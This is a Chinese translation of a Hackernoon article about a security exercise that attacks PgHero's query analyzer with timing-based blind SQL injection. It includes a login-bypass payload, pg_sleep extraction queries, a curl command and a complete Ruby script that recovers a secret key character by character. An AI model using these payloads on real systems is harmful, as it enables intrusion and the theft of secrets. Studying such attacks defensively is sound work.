 # 基于时间的盲 SQL 攻击

> 原文：<https://medium.com/hackernoon/timing-based-blind-sql-attacks-bd276dc618dd>

在典型的 SQL 注入攻击中，攻击者会在原本安全的查询中插入额外的 SQL。考虑这个用户登录查询:

```
SELECT 1 FROM users WHERE email = 'user@example.org' AND password = 'password';
```

如果用户输入的密码没有被清除，攻击者可以手工创建一个可以改变查询的输入，例如`' OR 1='`:

```
SELECT 1 FROM users WHERE email = 'user@example.org' AND password = 'password' OR 1='1';
```

注入的 SQL 关闭第一个谓词，并将其与另一个始终为真的谓词进行 or 运算；这意味着这个“密码”可以用于登录任何帐户。

值得注意的是，虽然这绕过了帐户安全，但它不会泄露任何敏感信息。也就是说，这是一次*盲目的* SQL 注入攻击，因为我们看不到我们 SQL 注入的结果；对我们的登录操作的响应没有分享密码实际是什么。

## 作弄 PgHero

作为最近一次安全训练的一部分，我的任务是扮演一个假冒的攻击者，他已经获得了我们的一个管理工具的访问权限。PgHero 是一个基于 Ruby 的工具，它为 Postgres 提供了一个管理接口，重点是性能调优。它非常有用。一个包含的特性是查询解释器和分析器:

![](img/c9aaa9406853813f3647496d62bfa7e4.png)

此工具提供解释或分析的结果，两者都不包括查询结果中的任何数据。通过将查询包装在事务中并回滚，该工具还可以防止数据的破坏或突变。乍一看，这似乎是一个无害的工具:不能改变任何东西，也不能恢复任何东西。

## 基于时间的攻击

虽然 Explain/Analyze 不返回查询的结果，但是它返回关于查询的元数据:*执行查询需要多长时间*。考虑以下查询:

```
SELECT CASE WHEN secret = 'secret' THEN pg_sleep(5) ELSE NULL END FROM apps WHERE id = 1 ;
```

如果猜测错误，该查询将快速返回，如果猜测正确，将花费大约 5s。使用这种查询风格和计时执行时间，我们现在可以从数据库中提取二进制(是/否)答案。使用`substr`，可以枚举字符串中您试图发现的每个字符:

```
-- brute force 1st character
SELECT CASE WHEN substr(secret, 1, 1) = 'a' THEN pg_sleep(5) ELSE NULL END FROM apps WHERE id = 1 ;
SELECT CASE WHEN substr(secret, 1, 1) = 'b' THEN pg_sleep(5) ELSE NULL END FROM apps WHERE id = 1 ;
SELECT CASE WHEN substr(secret, 1, 1) = 'c' THEN pg_sleep(5) ELSE NULL END FROM apps WHERE id = 1 ;
...-- brute force 16th character
SELECT CASE WHEN substr(secret, 16, 1) = 'a' THEN pg_sleep(5) ELSE NULL END FROM apps WHERE id = 1 ;
SELECT CASE WHEN substr(secret, 16, 1) = 'b' THEN pg_sleep(5) ELSE NULL END FROM apps WHERE id = 1 ;
SELECT CASE WHEN substr(secret, 16, 1) = 'c' THEN pg_sleep(5) ELSE NULL END FROM apps WHERE id = 1 ;
...
```

*注意:如果你需要做的不仅仅是概念验证，二进制搜索会比测试每种可能性快得多。*

对于每个字符，用了大约 5s 运行的查询指示了正确的字符。如果由于某种原因`pg_sleep()`不可用，任何足够慢/昂贵的查询都可以(例如，连接一个没有索引的字段)。

要对 PgHero 运行这些查询，需要将 SQL 封装在适当的 cURL 命令中:

```
curl --silent \
  -d "query='SELECT CASE WHEN substr(secret,1,1) = 'a' THEN pg_sleep(5) ELSE NULL END FROM apps WHERE id=1;'" \
  -d "commit=Analyze" \
  --user admin:password \
  [https://myhost.com/pghero/explain](https://myhost.com/pghero/explain)
```

有了[小样板](https://gist.github.com/derwiki/0b6ab5617171d4d6632e3bacd3356229)，我们可以自动化整个提取过程:

```
POSITIVE_DELAY = 2
CHARS = ('A'..'Z').to_a + ('a'..'z').to_a + ('0'..'9').to_a

def query(table, field, id, char, pos)
  %Q[SELECT CASE WHEN substr(#{field}, #{pos}, 1) = \'#{char}\' THEN pg_sleep(#{POSITIVE_DELAY}) ELSE NULL END FROM #{table} WHERE id = #{id} ;]
end

def timeit
  t0 = Time.now
  yield
  Time.now - t0
end

def curl_test(table, field, id, char, pos)
  cmd = <<-CMD.squish
    curl --silent -d "query=#{query(table, field, id, char, pos)}" -d "commit=Analyze"
      --user admin:password
      https://myhost.com/pghero/explain
  CMD
  timeit { `#{ cmd }` } > POSITIVE_DELAY
end

def retrieve_field(table, field, id)
  buffer = ""
  (1..255).each do |pos|
    found = false
    CHARS.each do |char|
      if curl_test(table, field, id, char, pos)
        puts "#{pos}: #{char}"
        buffer << char
        found = true
        break # once a match is found, move on
      end
    end
    break unless found # if nothing matched, treat as end of string
  end
  buffer
end

secret = retrieve_field('apps', 'secret', 1)
puts "secret: #{secret}"
```

这种攻击的一个例子是:

```
$ ruby blind-sql.rb
1: 6
2: 4
3: 2
4: 8
5: 9
6: a
7: 1
8: 0
9: 9
10: c
11: d
12: 6
13: 3
14: b
15: d
16: f
17: 0
18: 3
19: a
20: 8
key: 64289a109cd63bdf03a8
```

## 摘要

任何 SQL 注入攻击媒介都是坏消息。通常它们是由编程错误引起的，但是管理工具也可能暴露 SQL 注入式的攻击。如果 SQL 注入向量没有暴露查询的结果，仍然可以使用基于时间的攻击系统地提取结果。

延伸阅读:

*   [https://www.owasp.org/index.php/Blind_SQL_Injection](https://www.owasp.org/index.php/Blind_SQL_Injection)
*   http://www.sqlinjection.net/time-based/
*   [https://www . defcon . org/images/defcon-16/dc16-presentations/alon so-parada/defcon-16-alon so-parada-WP . pdf](https://www.defcon.org/images/defcon-16/dc16-presentations/alonso-parada/defcon-16-alonso-parada-wp.pdf)

[![](img/50ef4044ecd4e250b5d50f368b775d38.png)](http://bit.ly/HackernoonFB)[![](img/979d9a46439d5aebbdcdca574e21dc81.png)](https://goo.gl/k7XYbx)[![](img/2930ba6bd2c12218fdbbf7e02c8746ff.png)](https://goo.gl/4ofytp)

> [黑客中午](http://bit.ly/Hackernoon)是黑客如何开始他们的下午。我们是 [@AMI](http://bit.ly/atAMIatAMI) 家庭的一员。我们现在[接受投稿](http://bit.ly/hackernoonsubmission)并乐意[讨论广告&赞助](mailto:partners@amipublications.com)机会。
> 
> 如果你喜欢这个故事，我们推荐你阅读我们的[最新科技故事](http://bit.ly/hackernoonlatestt)和[趋势科技故事](https://hackernoon.com/trending)。直到下一次，不要把世界的现实想当然！

![](img/be0ca55ba73a573dce11effb2ee80d56.png)